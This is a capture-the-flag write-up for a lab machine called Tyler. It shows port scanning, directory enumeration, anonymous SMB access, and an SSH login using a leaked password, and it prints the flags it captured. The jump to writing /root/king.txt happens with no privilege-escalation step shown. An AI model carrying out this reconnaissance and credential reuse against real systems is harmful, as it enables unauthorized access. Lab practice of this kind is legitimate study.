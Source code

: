 ## King Of The Hill | Tyler machine Write-up

![image](https://github.com/zer00d4y/writeups/assets/128820441/830495c8-c401-4a24-b021-12d2d35f358a)

## Port scanning

`nmap 10.10.105.88`

    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-07 06:44 EST
    Nmap scan report for 10.10.178.46
    Host is up (0.13s latency).
    Not shown: 992 closed tcp ports (conn-refused)
    PORT     STATE SERVICE
    22/tcp   open  ssh
    80/tcp   open  http
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    3306/tcp open  mysql
    5000/tcp open  upnp
    8080/tcp open  http-proxy
    9999/tcp open  abyss
    
    Nmap done: 1 IP address (1 host up) scanned in 17.97 seconds


## Directory enumeration

`python3 dirsearch.py -e php,html,js -u http://10.10.105.88 --exclude-status 404,403,401,307`

      _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                                                                                                            
     (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                     
                                                                                                                                                                                                                                                
    Extensions: php, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 10624
    
    Output: /home/kali/tools/dirsearch/reports/http_10.10.105.88/_24-01-07_06-46-45.txt
    
    Target: http://10.10.105.88/
    
    [06:46:45] Starting:                                                                                                                                                                                                                        
    [06:50:15] 301 -  235B  - /upload  ->  http://10.10.105.88/upload/          
    [06:50:16] 200 -  307B  - /upload/                                          
                                                                                 
    Task Completed                              

-----------------------------------------------------------------------

`smbclient -L \\\\10.10.105.88\\ `

    Password for [WORKGROUP\kali]:
    Anonymous login successful
    
            Sharename       Type      Comment
            ---------       ----      -------
            print$          Disk      Printer Drivers
            public          Disk      
            IPC$            IPC       IPC Service (Samba 4.9.1)
    Reconnecting with SMB1 for workgroup listing.
    Anonymous login successful
    
            Server               Comment
            ---------            -------
    
            Workgroup            Master
            ---------            -------
            SAMBA                TYLER

`smbclient \\\\10.10.105.88\\public`

    Password for [WORKGROUP\kali]:
    Anonymous login successful
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Wed Mar 25 17:09:50 2020
      ..                                  D        0  Wed Mar 25 17:02:28 2020
      flag.txt                            N       33  Wed Mar 25 17:08:05 2020
      alert.txt                           N       50  Wed Mar 25 17:09:50 2020
    
                    13092864 blocks of size 1024. 7762712 blocks available
    smb: \> get flag.txt
    getting file \flag.txt of size 33 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
    smb: \> get alert.txt
    getting file \alert.txt of size 50 as alert.txt (0.1 KiloBytes/sec) (average 0.0 KiloBytes/sec)
    smb: \> exit

`cat flag.txt`

    2308b0cccea3f2a187a89a9f3155a3a4

`cat alert.txt`

    Let's keep things interesting... X8JEETQmf3hkS65f

"X8JEETQmf3hkS65f" is ssh password!

`ssh narrator@10.10.105.88`     
    
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes 
    Warning: Permanently added '10.10.105.88' (ED25519) to the list of known hosts.
    narrator@10.10.105.88's password: X8JEETQmf3hkS65f
    Last login: Thu Mar 26 10:52:23 2020 from cyberdyne
    [narrator@tyler ~]$ ls
    app  user.txt
    [narrator@tyler ~]$ cat user.txt
    991c65538b9afaf2494f4552b915c948




-----------------------------------------------------------------------

flag-1: 2308b0cccea3f2a187a89a9f3155a3a4 flag.txt

flag-2: 991c65538b9afaf2494f4552b915c948 user.txt

echo zer0d4y > /root/king.txt
